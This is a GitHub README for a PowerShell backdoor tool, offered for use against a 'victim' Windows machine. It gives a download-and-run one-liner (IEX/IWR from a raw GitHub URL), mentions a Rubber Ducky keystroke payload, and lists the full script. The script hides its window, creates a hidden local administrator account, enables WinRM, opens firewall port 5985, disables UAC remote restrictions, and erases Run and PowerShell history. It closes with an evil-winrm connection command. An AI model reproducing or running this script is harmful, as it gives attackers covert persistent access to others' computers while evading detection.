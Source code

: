 # WinRM-Reverse-Shell

# Dependencies
+ Works on Windows 10/11
+ For the attacker and victim to establish a connection via Evil-WinRM they must be on the same network.

# Own Pass And Name
Go to `WinRM.ps1` and edit 
+ $Username = "`TO YOUR OWN`"
And for the pass edit
+ $Password = ConvertTo-SecureString "`TO YOUR OWN`" -AsPlainText -Force

# Powershell One liner with administrator permissions
`IEX (IWR "https://raw.githubusercontent.com/VBV11/WinRM-Reverse-Shell/main/WinRM.ps1")`
# How to get the shell using Evil-WinRM
Use this command 
`evil-winrm -i YOUR.IP.ADDRES.LOL -u Admin -p Password1`
# ![Screenshot_2024-02-25_13-40-13 (1)](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/446782ec-8fcf-46ac-adf1-10f54711bf73)

# Rubber Ducky payload
### The payload is in this repo aswel 
+ Edit your own speed of the payload
+ You can change to URL to your own 



https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/fa37438d-69cc-4969-8866-dc02a3437dec



# You can see the Acount in User Accounts
+ In the run box u can type netplwiz and then u can see the Acount
+ Also u may see it in the login screen but that doesnt happen by me 

![image](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/8ee30db3-aee3-4720-9d75-228fd26a6aec)


![image](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/2d0a0ada-3810-4cc3-9e8a-338c4ef3079d)


# Script into pieces
## Function to hide a window
function Hide-Window {
    param(
        [IntPtr]$Handle = (Get-Process -PID $PID).MainWindowHandle
    )
    Add-Type @"
    using System;
    using System.Runtime.InteropServices;

    public class Window {
        [DllImport("user32.dll")]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetConsoleWindow();
    }
"@
    [void][Window]::ShowWindow($Handle, 0)
}

## Hide the current PowerShell window
Hide-Window

## Create a new local user account
$Username = "Admin"
$Password = ConvertTo-SecureString "Password1" -AsPlainText -Force
New-LocalUser -Name $Username -Password $Password -PasswordNeverExpires

## Add the newly created user to the local Administrators group
Add-LocalGroupMember -Group "Administrators" -Member $Username

## Enable Windows Remote Management (WinRM)
Enable-PSRemoting -Force

## Add a firewall rule to allow WinRM traffic
New-NetFirewallRule -DisplayName "Windows Remote Management for RD" -Direction Inbound -Protocol TCP -LocalPort 5985 -Action Allow

## Disable UAC remote restrictions
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "LocalAccountTokenFilterPolicy" -Value 1 -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "Admin" -Value 0 -PropertyType DWORD -Force

## Delete run box history
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -Force

## Delete powershell history
Remove-Item (Get-PSReadlineOption).HistorySavePath

## Exit PowerShell session
Exit

# Credits
### credits TW-D for inspiring me to create this powershell script

